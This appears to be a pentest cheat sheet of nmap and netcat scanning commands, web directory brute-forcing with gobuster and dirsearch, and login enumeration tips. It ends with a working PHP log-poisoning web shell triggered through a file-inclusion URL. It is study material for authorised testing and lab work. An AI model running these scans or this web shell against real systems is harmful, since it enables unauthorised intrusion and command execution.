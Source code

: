- Full TCP service scan on found hosts:  
   `nmap -n -Pn --reason -sS -sC -sV -p- -O -iL targets_online.txt -oA nmap_service_scan_tcp`
 
- If you want only open ports without all the details:  
   `nmap -n -Pn --reason -sS -p- -iL targets_online.txt -oA nmap_service_scan_tcp`

- start with less ports until full scan is done:  
   `nmap -n -Pn --top-ports 100 --reason -sS --min-hostgroup 128 --max-retries 1 --min-rate 500 --defeat-rst-ratelimit -iL targets_online.txt -oA nmap_SYN_scan_TCP_TOP_100`  

- NMAP Reports:  
   https://github.com/maaaaz/nmaptocsv  
   `python nmaptocsv.py -x SMBClientScan.xml -f ip-port-protocol-service-version-os >> output.csv` 

- NMAP based OS Discovery:  
   `nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery <ipaddress>` 

- Discovery & Data Gathering tools:
  `https://github.com/codingo/Reconnoitre` 
  
- Replace nmap with netcat:  
  `nc -z -v {host-name-here} {port-range-here}`  
  `nc -nvv -w1 -z 10.X.X.Y 1-100 2>&1 | grep open`  
  ``for port in `seq 65535`; do { disown -r ; nc -nvv -w1 -z 10.X.X.Y $port 2>&1 | grep ' open' & } 2>/dev/null ; disown -r ; done``  

## HTTP/HTTPS
- `curl -i <ip>`   
- `nikto -host $targetip -port $targetport`
- `./dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $targetip -e php`
- `gobuster dir -e -k -w /usr/share/wordlists/dirb/common.txt -r -u https://www.example.com` 
   `gobuster with cookies: gobuster dir -e -k -w /usr/share/wordlists/dirb/common.txt -c 'connect.sid=s%3AEKo...jYluY; JSESSIONID=3asdasd889DF94A;' -r -u  https://somedomain.com`
- gobuster comprehensive busting:
  `gobuster -s 200,204,301,302,307,403 -u 10.10.10.10 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'`  
- gobuster search with file extension:
  `gobuster -u 10.10.10.10 -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 80 -a Linux -x .txt,.php`  

- Wordpress scan:
  `wpscan -u 10.10.10.10/wp/` 
  
- Login pages:  
  Username enumeration through  
  - Checking login failed message  
  - Registering account (try same email twice, same username twice)  

- PHP Logfile contamination:  
  (add the PHP code to the logfile and the with LFI get the logfile somewhere where "include PHP function" is being used)
  `kali@kali:~$ nc -nv 10.11.0.22 80`  
  `(UNKNOWN) [10.11.0.22] 80 (http) open`  
  `<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`  
  Use the PHP code in the logfile:  
  `http://10.11.0.2/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`  
